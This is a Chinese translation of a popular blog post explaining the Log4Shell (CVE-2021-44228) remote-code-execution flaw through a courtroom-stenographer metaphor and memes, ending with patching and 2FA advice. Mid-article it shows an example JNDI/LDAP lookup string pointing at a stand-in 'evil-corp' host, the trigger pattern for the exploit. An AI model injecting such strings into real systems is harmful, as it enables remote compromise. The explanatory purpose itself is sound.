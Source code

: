 # Log4Shell，用隐喻和模因来解释！

> 原文：<https://blog.devgenius.io/log4shell-as-explained-by-metaphor-and-memes-38de224a2eb7?source=collection_archive---------0----------------------->

多么迷人的假日季节——由于两次 AWS 区域宕机，我认为深入探讨可用性区域恢复能力以及实现这一目标所涉及的权衡和实用性将会非常棒。肯定没有比这更好的系统集成话题了吧？

![](img/8765d352dc2e38d4d716adf904f00095.png)

## 那么 Log4J 是什么，有什么大不了的？

**Log4J** 是 Java 生态系统中的软件用来创建*日志*的超级通用工具包。想想让·卢克·皮卡德在《星际迷航:下一代》每集开始时的“船长日志”条目，除了在电脑里，每毫秒有成千上万集，我们勤奋地记录每件事，直到最后一口伯爵茶。日志很棒，通常很受欢迎，而且历史上并不是系统危害的主要来源之一。他们甚至是一个伟大的方式来监控您的系统*对*妥协！

![](img/0534fd802a86434632cfe75b1b836408.png)

然后 **Log4Shell** 发生了。这是该漏洞的友好名称，正式命名为 CVE-2021–44228，许多人只是说“Log4J”来指代该问题。Log4Shell 是一个**R**emote**C**ode**E**execution(“RCE”)漏洞，也就是 OpSec 的说法，大致意思是“任何能够与有此漏洞的计算机进行交互的人，即使是间接的，都可以命令该计算机做他们想让它做的任何事情。”在漏洞的范围内，称之为*超级糟糕是公平的。*

![](img/914a50ce964cff8b2323fc8d5f4699d1.png)

请允许我做一个比喻，它的不准确性肯定会让工程师和法律专业人士感到不安。

## 假设 Log4J 是法庭速记员

我们的电脑是法庭。速记员在整个诉讼过程中都在房间里，他的具体工作是把法庭上发生的一切都记录下来。

法庭有各种不同的访问级别——一些被严密保护，而另一些公众可以参观。速记员被视为有特权访问的受信任的支持人员。

了解 Log4Shell 相当于突然发现所有速记员中有三分之一的人是满洲候选人。他们是不知情的潜伏特工，当被正确的关键词触发时，他们会尽最大能力执行任何命令。如果他们在笔录中写下一个特殊的短语，就会触发——所以有人必须在法庭上说这个短语，然后砰，注意到并妥协了。

这个短语看起来像这样:

> $ { JNDI:LDAP://evil-corp . evil/activate-manchurian-candidate-and-follow-these-instructions }

在我们的比喻中，这与“幽灵青蛙算盘”一类的短语没有太大的不同——说起来很奇怪，但你可以煞有介事地欺骗某人把它写下来。

![](img/3565eca352b5b8f441273de8056de7ac.png)

利用这一点是如此简单，以至于本周有将近一半的企业报告被探测到 Log4Shell 漏洞。

Via [维基百科](https://en.wikipedia.org/wiki/Log4Shell):

> 截至 2021 年 12 月 14 日，全球几乎一半的公司网络都受到了主动探测，24 小时内产生了 60 多种利用漏洞的变种

和

> Check Point Software Technologies 在一份详细的分析中[描述]潜在的损害是“不可估量的”

这就像糟糕的演员出现在世界各地的法庭上，大声喊出关键词，看看他们是否会让速记员妥协。对于那些受到威胁的人，我们不一定知道他们接下来会做什么。

所以我们在这里——有组织的个人或随机的演员可以在法庭上大声说出事情，如果命令被转录，那么他们已经妥协了速记员。更老练的人可能会安排一名庭审证人，他会以一种微妙的方式说出激活码，而不是在房间后面大喊大叫。

在影响最小的*事情中，被泄密的速记员可能会做的仅仅是**破坏这个地方。他们停止了他们的工作，开始乱扔椅子，程序被中断，直到问题得到解决。*(这就像用 RCE 撞机一样。)****

*但是对速记员更迂回的指示可能是这样的:*

1.  *自我编辑他们自己的抄本，所以他们的妥协点隐藏在记录中*
2.  *利用对他们的信任，尝试做一些他们不应该做但可能逃脱惩罚的奇怪事情，例如篡改证据，试图通过在记录中注入错误信息来影响诉讼程序，或者只是分享他们笔录中的所有私人内容(有人说过密码吗？或者信用卡号码？嗯嗯……)*
3.  *知道他们最终会被抓住，打开整个法院的一堆锁着的门，以便其他坏演员可以稍后进入*
4.  *一般促成[欺诈供应链](https://bam.kalzumeus.com/archive/the-fraud-supply-chain/)*

*嗯，好吧，可怕…但至少损失是有限的，因为妥协的程度仅限于速记员，对不对？这并不是说法庭上的其他人也受到了影响，他们只是容易被速记员愚弄或欺骗。*

*哦，等等，但结果不仅仅是速记员。做笔记的都是 ***。*** 法官做笔记。所有人。在所有权力的位置上。他们都记笔记。所以他们都是易受攻击的潜伏特工。更糟糕的是，一些法庭喜欢“快速行动，打破常规”,让超级法官以超人的能力履行法庭的所有职能——法官、陪审团、起诉人、辩护律师……刽子手……他们也是速记员。所以如果你进入其中一个法庭，你就可以轻松地掌控整个法庭。*

*![](img/aee0bc504a43343f389c71dc19276330.png)*

*比喻变瘦？嗯，是的，但这在软件世界很常见。*

*如果你从事工程或者曾经参加过安全培训，你可能听说过最小特权原则*。这种确保系统的每个组件都有足够的权限在自己的领域内操作的做法(也就是说，速记员也没有法官的权力)将极大地减轻已经受损的系统可能造成的损害。这种时候，好的实践才会真正有回报。**

**但是，每个人*每个人*都做笔记，即使是最有权力的人，尽管速记员是法庭上最容易骗写你的关键短语的人，但他们都很容易受到影响。**

**所以一切都做得非常正确的团队和公司……仍然容易受到 Log4Shell 的攻击。**

> **德国的[信息安全办公室]将这次攻击定为该机构的最高威胁级别，称其为“极其严重的威胁情况”。它还报告说，一些攻击已经成功，而利用程度仍然难以评估。**

****Ok cool so Log4Shell 不好，你的比喻现在完成了。我猜电脑人会整理出来；我在这里很好，是吗？****

**嗯…**

**![](img/202567b053c81f7909b515ff28d263ee.png)**

**首先，**如果你存在于**星球上，你需要意识到这会影响到你。**

**![](img/79592ae882fcf83f70c0f81609af52a0.png)**

**你在家使用互联网吗？然后你家里有一个**路由器**，那个路由器**有很好的机会运行 Java** 和**肯定会生成日志**和**通常有一个外部可用的管理门户**。所以检查它是否有软件更新，如果有，就安装它。当你在那里的时候，也可以关闭外部管理门户。**

**作为软件的**消费者，你能做的最好的事情就是重申两个基本原则:****

1.  **应用软件升级。检查你的东西，升级它。本周，全世界的软件团队都在努力解决这个问题，而且速度很快……当你必须自己更新软件时，除非你应用这些更新，否则你无法从他们的工作中获益。**
2.  **处处用 2FA。本周你的密码被泄露的几率大幅上升；我敢打赌 haveibeenpwned.com 会在未来几个月宣布一系列安全漏洞，其中许多会追溯到本周。如果你的密码是唯一保护你的电子邮件账户、银行账户或万智牌数字收藏的东西，你的妥协是不可避免的。用 2FA。**

**你为你的孩子运行《我的世界》服务器吗？(…或者，为了自己？)《我的世界》:Java 版被 Log4Shell 攻陷。**

**![](img/e8cb251a3f19e19ec1005720f6231c9c.png)**

**对于我们这些自称是**电脑人**(哔，哔)，…我们对此事有很多想法。这里有三个简单的例子:**

1.  **只要我们发现 Log4J 被我们自己的代码使用*，我们就必须升级或删除它。***
2.  **我们都得到了一个明确的提醒:在记录信息时，我们必须始终净化我们的日志输入。值得将这视为类似于 SQL 注入或 XSS 的严重程度，但作为一种安全实践，它远没有得到重视。**
3.  **全世界的系统管理员团队都有一个崇高的任务负责人**

**![](img/1c7e1d2b7e705e60e18c85ea3803d9c8.png)**

**这让我想到了今天早上最后也是最紧迫的一点:**

**给你的同事一些爱。**

**就像，没有比这周更好的一周去同情和善待你的下属、开发人员和安全人员了。**

**你是和 OpSec 的成员出去喝咖啡或鸡尾酒吗？买单。有很多人为此失眠，更多的人因为快速反应损失了几个工作日。**

**![](img/d6f93c72ef7fc1b85bd8138ae9281646.png)**

**特别感谢[https://log4jmemes.com/](https://log4jmemes.com/)精彩的插图，以及[https://en.wikipedia.org/wiki/Log4Shell](https://en.wikipedia.org/wiki/Log4Shell)的引用。**

**给我的程序员和网络工程师朋友一个注脚…*是的，我知道我过度简化了很多东西，尤其是网络部分，但我真的不想进入网络或网络安全或 web 服务器的本质或物联网或诸如此类的东西。我严重模糊了“计算机”和“在计算机上运行的软件”之间的界限……难以用语言表达；我欢迎你的技术性反驳；-)与此同时…让我们都去升级我们烤面包机上运行的 Java 版本。***